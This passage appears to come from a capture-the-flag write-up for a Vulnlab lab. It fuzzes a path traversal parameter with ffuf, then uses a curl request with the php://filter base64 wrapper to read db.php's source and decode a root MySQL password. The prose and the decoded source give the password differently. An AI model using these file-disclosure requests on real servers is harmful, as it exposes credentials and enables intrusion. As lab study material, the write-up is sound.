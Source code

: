 The scan reveals a Path traversal Vulnerability in the `view` parameter:
![Burp Scan - Path traversal result](/images/vulnlab_trusted/burp_path_traversal.png)

Since the hint mentioned a Database connection, we want to enumerate the current folder, the `-fw 55,58` filters are in place to ignore errors.

```bash {hl_lines=[6]}
ffuf -u http://labdc.lab.trusted.vl/dev/index.html?view=FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -fw 55,58 -o fuff-out
index.html              [Status: 200, Size: 2311, Words: 132, Lines: 80, Duration: 26ms]
contact.html            [Status: 200, Size: 2708, Words: 108, Lines: 105, Duration: 36ms]
.htaccess               [Status: 200, Size: 783, Words: 28, Lines: 31, Duration: 43ms]
about.html              [Status: 200, Size: 1918, Words: 80, Lines: 71, Duration: 68ms]
db.php                  [Status: 200, Size: 763, Words: 26, Lines: 31, Duration: 50ms]
Contact.html            [Status: 200, Size: 2708, Words: 108, Lines: 105, Duration: 215ms]
system.php              [Status: 200, Size: 892, Words: 47, Lines: 32, Duration: 34ms]
table.php               [Status: 200, Size: 1185, Words: 67, Lines: 38, Duration: 40ms]
Index.html              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 36ms]
About.html              [Status: 200, Size: 1918, Words: 80, Lines: 71, Duration: 38ms]
PEAR.php                [Status: 200, Size: 741, Words: 25, Lines: 31, Duration: 27ms]
```

`db.php` looks interesting, however since it is a PHP file, it gets executed. 
To access the source we can use the base64 PHP wrapper: `php://filter/read=convert.base64-encode/resource=TARGET`
The URL is therefore:
```html {hl_lines=[15]}
curl http://labdc.lab.trusted.vl/dev/index.html?view=php://filter/read=convert.base64-encode/resource=db.php

<!DOCTYPE HTML>
<!-- Website template by freewebsitetemplates.com -->
<html>
<head>
	<meta charset="UTF-8">
	<title>Law Firm</title>
	<link rel="stylesheet" href="css/style.css" type="text/css">
</head>
<body>
	<div id="header">
		[...]
	</div>
<p>PD9waHAgDQokc2VydmVybmFtZSA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIlN1cGVyU2VjdXJlTXlTUUxQYXNzdzByZDEzMzcuIjsNCg0KJGNvbm4gPSBteXNxbGlfY29ubmVjdCgkc2VydmVybmFtZSwgJHVzZXJuYW1lLCAkcGFzc3dvcmQpOw0KDQppZiAoISRjb25uKSB7DQogIGRpZSgiQ29ubmVjdGlvbiBmYWlsZWQ6ICIgLiBteXNxbGlfY29ubmVjdF9lcnJvcigpKTsNCn0NCmVjaG8gIkNvbm5lY3RlZCBzdWNjZXNzZnVsbHkiOw0KPz4=</p></body>
</html>
```
Decoded this reveals the database password `SecureMySQLPassw0rd1337.`

```php
echo PD9waHAgDQokc2VydmVybmFtZSA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIlN1cGVyU2VjdXJlTXlTUUxQYXNzdzByZDEzMzcuIjsNCg0KJGNvbm4gPSBteXNxbGlfY29ubmVjdCgkc2VydmVybmFtZSwgJHVzZXJuYW1lLCAkcGFzc3dvcmQpOw0KDQppZiAoISRjb25uKSB7DQogIGRpZSgiQ29ubmVjdGlvbiBmYWlsZWQ6ICIgLiBteXNxbGlfY29ubmVjdF9lcnJvcigpKTsNCn0NCmVjaG8gIkNvbm5lY3RlZCBzdWNjZXNzZnVsbHkiOw0KPz4= | base64 -d
<?php 
$servername = "localhost";
$username = "root";
$password = "SuperSecureMySQLPassw0rd1337.";

$conn = mysqli_connect($servername, $username, $password);

if (!$conn) {
  die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
```